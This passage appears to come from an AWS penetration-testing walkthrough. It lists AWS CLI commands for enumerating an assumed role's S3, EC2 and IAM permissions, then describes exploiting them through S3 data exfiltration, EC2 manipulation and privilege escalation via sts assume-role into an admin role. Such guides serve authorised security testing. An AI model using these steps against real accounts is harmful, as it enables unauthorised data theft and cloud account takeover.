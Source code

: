 **Step 6: Discover Available Permissions**

This step requires exploring the permissions granted to the assumed role. The exact commands will depend on the targeted AWS services and resources. Here are some examples:

```bash
aws s3 ls s3://<BUCKET_NAME>
```

*   **Explanation:** Lists the contents of an S3 bucket.
*   **Why:** To check if the assumed role has read access to the S3 bucket.
*   **Replace `<BUCKET_NAME>` with the name of an existing S3 bucket.** You may need to enumerate S3 buckets if you don't know which ones exist.
*   **Expected Output:** A list of objects within the bucket, or an error message indicating lack of permissions.

```bash
aws ec2 describe-instances
```

*   **Explanation:** Describes EC2 instances in the region.
*   **Why:** To check if the assumed role has read access to EC2 instances.
*   **Expected Output:** A JSON payload containing details of the EC2 instances in the region, or an error message indicating lack of permissions.

```bash
aws iam get-role --role-name <ROLE_NAME>
```

*   **Explanation:**  Retrieves details about the IAM role's permissions policy.
*   **Why:** Helps determine the actions and resources the role is allowed to access, guiding further exploitation efforts.
*   **Replace `<ROLE_NAME>` with the name of the IAM role you assumed.**
*   **Expected Output:**  JSON output describing the role, including its attached policies and trust relationship.

**Step 7: Exploit Vulnerable Permissions**

Based on the discovered permissions, attempt to exploit the vulnerability. Examples include:

*   **Data Exfiltration:** If the role has read access to S3 buckets, download sensitive data.
*   **Resource Manipulation:** If the role has write access to EC2 instances, start, stop, or terminate instances.
*   **Privilege Escalation:** If the role has the ability to assume other roles, assume those roles to gain higher privileges.  This is often possible if the role has `sts:AssumeRole` permission on other roles.

**Example: Assuming another role (Privilege Escalation)**

Assuming the role `pentest-role` has permissions to assume role `admin-role`:

```bash
aws sts assume-role --role-arn "arn:aws:iam::<ACCOUNT_ID>:role/admin-role" --role-session-name "escalated-session"
```

*   **Explanation:**  Assumes the `admin-role` using the credentials of `pentest-role`.
*   **Replace `<ACCOUNT_ID>` with the AWS account ID where the `admin-role` is defined.**
*   **Expected Output:**  A new set of temporary credentials for the `admin-role`.

